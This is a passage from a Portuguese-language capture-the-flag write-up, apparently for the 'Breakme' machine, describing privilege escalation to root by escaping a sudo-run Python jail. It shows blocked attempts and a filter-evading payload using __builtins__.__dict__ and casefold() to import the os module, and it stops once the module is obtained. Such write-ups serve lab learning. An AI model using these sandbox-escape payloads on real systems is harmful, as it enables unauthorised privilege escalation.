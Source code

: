 Foi feito uma tentativa de inserir uma biblioteca `os`

```
>> import os
Illegal Input
```

Então foi partido para `payloads` para poder escapar dos filtros

## Escalando Privilégios para o Root

Procurando por `payloads` de `bypass` foi encontrado um site que ajudou bastante no processo

https://hacktricks.boitatech.com.br/misc/basic-python/bypass-python-sandboxes

A `payload`que foi encontrada ela importa o `os` módulo e chama a função `system` a partir dele

`__builtins__.__import__("os").system("ls")`

```
>> __builtins__.__import__("os").system("ls")
Illegal Input
```

Então é feito algumas tentativas para dividir
```
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
>> __builtins__.__import__
Illegal Input
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
>> __builtins__           
>> __import__
Illegal Input
youcef@Breakme:~$ 
```

Foi analisado algumas tentativas e foi decidido mudar um pouco a payload

`__builtins__.__dict__['__import__']` -> `__dict__` permite acessar os atributos do objeto como um dicionário

E foram tentados vários métodos. Até encontrar esse
`print(__builtins__.__dict__['__IMPORT__'.casefold()])`

```
>> print(__builtins__.__dict__['__IMPORT__'.casefold()])
<built-in function __import__>
```


Foi feito uma tentativa também com o `print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()))`
```
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()))
<module 'os' from '/usr/lib/python3.9/os.py'>
```
